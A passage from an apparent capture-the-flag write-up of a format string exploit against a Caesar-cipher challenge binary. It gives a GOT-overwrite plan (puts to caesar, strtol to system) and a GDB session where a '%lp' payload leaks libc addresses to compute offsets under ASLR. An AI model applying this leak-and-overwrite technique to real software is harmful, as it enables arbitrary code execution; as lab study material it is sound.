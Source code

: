 The final printf is also optimised to puts.

#### Format string attack plan

- puts@GOT() -> caesar()
- leak libc 
- calculate system@libc()
- strtol@got() -> system()

#### Find leaked address (locally)

In GDB, debug the printed values

    # gdb caesars-revenge 

    (gdb) br caesar
    Breakpoint 1 at 0x40119a

    (gdb) run
    Welcome to the Caesar Cipher Encoder!
    Breakpoint 1, 0x000000000040119a in caesar ()
    
    (gdb) finish
    Run till exit from #0  0x000000000040119a in caesar ()
    
    Enter text to be encoded: ABCDEFGH %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp %lp
    
    Enter number of characters to shift: 26
    
    Result: ABCDEFGH 0x7fffffffc3a0 0x7ffff7fc28c0 (nil) 0x7ffff7fc7500 (nil) 0x6562b026 0xf077fffffffebf0 0x1a00000078 0x7fffffffea62 0x7fff000a3632 0x7fffffffea88 0x7ffff7ffe758 0x1 0x2 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x4847464544434241 0x20706c2520706c25 0x20706c2520706c25 0x20706c2520706c25 0x20706c2520706c25

    Thank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!
    0x00000000004014b8 in main ()

    (gdb) printf "%p", __libc_start_main
    0x7ffff7e28fb0

We know that the first param (rdi) is the buffer

    (gdb) printf "%s", 0x7fffffffc3a0
    ABCDEFGH0x7fffffffc3a0 0x7ffff7fc28c0 (nil) 0x7ffff7fc7500 (nil) 0x6562b026 0xf077fffffffebf0 0x1a00000078 0x7fffffffea62 0x7fff000a3632 0x7fffffffea88 0x7ffff7ffe758 0x1 0x2 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x4847464544434241 0x20706c2520706c25 0x20706c2520706c25 0x20706c2520706c25 0x20706c2520706c25

Across runs, we see that the 2nd param seems to be it. It is equal to `__libc_start_main-1677584`

    (gdb) printf "%d", __libc_start_main - 0x7ffff7fc28c0
    -1677584

Now if we repeat again but turn on randomisation, we get consistent results for the offset


    (gdb) set disable-randomization off
    (gdb) br caesar 
    (gdb) run
    (gdb) finish
    ...
    Result: ABCDEFGH 0x7ffc6dca2b70 0x7f8fb73228c0 (nil) 0x7f8fb7327500 (nil) 0x6562b026 0xf077ffc6dca53c0 0x1a00000079 0x7ffc6dca5232 0x7ffc000a3632 0x7ffc6dca5258 0x2 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x4847464544434241 0x706c2520706c2520 0x706c2520706c2520 0x706c2520706c2520 0x706c2520706c2520
